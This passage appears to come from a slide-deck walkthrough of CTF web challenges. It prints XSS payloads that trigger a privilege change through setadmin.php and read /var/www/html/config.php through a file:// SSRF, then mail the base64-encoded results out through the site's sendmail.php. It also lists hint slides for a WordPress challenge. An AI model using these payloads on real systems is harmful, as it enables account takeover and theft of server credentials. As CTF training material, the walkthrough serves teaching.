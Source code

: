 ```
* request.php

---

## xssrf leak construct 2
```
var xhttp = new XMLHttpRequest();
xhttp.open("POST", "setadmin.php");
xhttp.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhttp.onreadystatechange = function() { 
if (this.readyState === XMLHttpRequest.DONE) {
  var xhttp1 = new XMLHttpRequest();
  xhttp1.open("POST", "sendmail.php");
  xhttp1.setRequestHeader("Content-Type", "application/x-www-form-urlencoded"); 
  xhttp1.send("to_user=abcde&subject=cookie&content="+btoa(this.responseText));
}};
xhttp.send("username=abcde");
```
* 帳號毀滅 !

---

## xssrf leak search
* robots.txt
```
User-agent: *
Disallow: /config.php
Disallow: /you/cant/read/config.php/can/you?
Disallow: /backup.zip
```
* [Back to xssme leak hint](#/32)

---

## xssrf leak construct 3
```
var xhttp = new XMLHttpRequest();
xhttp.open("POST", "request.php");
xhttp.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhttp.onreadystatechange = function() { 
if (this.readyState === XMLHttpRequest.DONE) {
  var xhttp1 = new XMLHttpRequest();
  xhttp1.open("POST", "sendmail.php");
  xhttp1.setRequestHeader("Content-Type", "application/x-www-form-urlencoded"); 
  xhttp1.send("to_user=ababc&subject=cookie&content="+btoa(this.responseText));
}};
xhttp.send("url=file:///var/www/html/config.php");
```
* [Back to Web](#/1)

Note:路徑猜測是 ubuntu 預設路徑

---

## wordpress 1 hint
* 目標 : Something strange is hidding in the source code, find it.
* 切入點
  * 就是到處看看, 要有耐心和細心
* 步驟
  * [step1, website, 找出目標](#/41)
  * [step2, source code, 找出目標](#/42)
  * [step3, bypass, 分析和建構語法](#/43)

---
```
